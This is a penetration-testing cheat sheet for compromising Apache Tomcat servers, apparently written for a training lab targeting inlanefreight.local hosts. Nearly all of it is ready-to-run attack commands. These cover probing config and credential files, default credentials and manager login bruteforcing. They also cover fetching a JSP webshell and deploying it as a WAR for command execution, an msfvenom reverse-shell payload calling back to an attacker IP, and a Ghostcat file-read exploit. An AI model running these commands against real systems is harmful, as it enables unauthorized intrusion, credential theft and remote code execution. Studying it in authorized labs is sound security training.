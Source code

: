 # tomcat
## version detection
http://app-dev.inlanefreight.local:8080/invalid        (invalid request)  
curl -s http://app-dev.inlanefreight.local:8080/docs/ | grep Tomcat  
## interesting locations
curl -s http://app-dev.inlanefreight.local:8080/conf/  
curl -s http://app-dev.inlanefreight.local:8080/conf/tomcat-users.xml  
curl -s http://app-dev.inlanefreight.local:8080/conf/tomcat-users.xsd  
curl -s http://app-dev.inlanefreight.local:8080/lib/  
curl -s http://app-dev.inlanefreight.local:8080/logs/  
curl -s http://app-dev.inlanefreight.local:8080/temp/  
curl -s http://app-dev.inlanefreight.local:8080/webapps/random_app1/WEB-INF/web.xml  
curl -s http://app-dev.inlanefreight.local:8080/webapps/random_app1/WEB-INF/classes  
## main urls for tomcat manager
curl -s http://app-dev.inlanefreight.local:8080/manager/  
curl -s http://app-dev.inlanefreight.local:8080/host-manager/  
## default credentials
tomcat:tomcat  
admin:admin  
## tomcat manager login bruteforcing
### metasploit
msf> auxiliary/scanner/http/tomcat_mgr_login  
### python script
**!!!! itt van kulon tomcat-users meg tocmat-passwords directory!!! Erdemes azt hasznalni!!!**  
https://github.com/b33lz3bub-1/Tomcat-Manager-Bruteforce  
python3 mgr_brute.py -U http://web01.inlanefreight.local:8180/ -P /manager -u /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt -p /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt  
### tomcat wordlists
* user list
  * /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_users.txt
* pass list
  * /usr/share/metasploit-framework/data/wordlists/tomcat_mgr_default_pass.txt
## tomcat manager - WAR file upload (/manager/html)
* example jsp rce payload
  * wget https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/jsp/cmd.jsp
* convert .jsp to .war
  * zip -r payload.war cmd.jsp
* tomcat manager upload
  * 'WAR file to deploy' section
  * Browse (choose .war file)
  * Deploy
* choose 'payload' from the 'Applications'
* load web shell in browser
  * firefox> http://web01.inlanefreight.local:8180/payload/cmd.jsp
* call web shell through curl
  * curl http://web01.inlanefreight.local:8180/payload/cmd.jsp?cmd=id
## generating war web shell with msfvenom
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=4443 -f war > backup.war  
## uploading war file with metasploit
msf> exploit/multi/http/tomcat_mgr_upload  
## CVE-2020-1938 : Ghostcat vulnerability
### info
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-1938  
Tomcat was found to be vulnerable to an unauthenticated LFI in a semi-recent discovery named Ghostcat.  
All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable.  
This vulnerability was caused by a misconfiguration in the AJP (Apache Jserv Protocol) protocol used by Tomcat.  
AJP port: 8009
### exploitation
nmap -sV -p 8009 app-dev.inlanefreight.local  
https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi  
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml  
